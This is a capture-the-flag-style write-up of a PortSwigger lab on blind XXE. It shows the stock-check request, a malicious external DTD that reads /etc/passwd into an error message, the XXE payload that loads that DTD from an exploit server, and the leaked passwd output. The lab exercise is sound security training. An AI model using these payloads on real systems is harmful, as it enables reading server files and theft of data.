 # [Lab: Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)

## Lab

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the  `/etc/passwd`  file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

## Analysis

check stock request:

```http
POST /product/stock HTTP/1.1
Content-Length: 107
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

the body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```

## tools

- burpsuite scanner: detected `Issue: External service interaction (HTTP)`

## Solutions

craft a malicious DTD at exploit-server/exploit.dtd:

  ```xml
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; errorforsure SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %errorforsure;
  ```

- `eval`: dynamic declaration of the errorforsure entity
- `%eval`: perform dynamic declaraction of errorforsure entity
- dynamic declaraction:
  - `&#x25;` => `%`
  - `%file;` => content of `"file:///etc/passwd"`

xxe:

```xml
<?xml version="1.0" encoding="UTF-8" standalone='no'?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-id.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

=> response:

```text
"XML parser exited with error: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

